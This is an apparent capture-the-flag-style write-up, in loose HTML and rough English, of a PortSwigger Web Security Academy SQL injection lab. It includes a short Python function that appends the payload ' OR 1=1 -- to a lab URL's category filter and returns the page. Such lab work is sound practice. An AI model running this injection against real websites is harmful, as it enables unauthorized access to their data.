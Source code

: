  <title>portswigger---SQL injection attackWriteup  </title>
 

<!DOCTYPE html>
<html>
 
<body>
    <h1>portswigger---SQL injection attackWriteup </h1>

    <h2>Challenge Description</h2>
    <p>  this is  python code and works about solutions for https://portswigger.net/
sqli lab and do sqli attack in site for test have sqli or no
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol> 
     use this sqli attack for etst if site has sqli vulerbility ot no
<pre>
#url is where have sqi vulunerability https://0ae700be049cfce18390e9b6003b0001.web-security-academy.net/filter?category=
import requests
def solve(url):
    """Perform a full SQL injection attack if detected"""
    payload = "' OR 1=1 --"
    attack_url = f"{url}{payload}"

    try:
        response = requests.get(attack_url, timeout=5)
        return response.text[:1000]  # Limit output for safety
    except Exception as e:
        return f"Error: {str(e)}"

 
</pre>
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">when attack was successfull show solved message

    <h2>Conclusion</h2>
    <p>this is a medium chanllenge for work on  web anbd sqli</p>

</body>
</html>

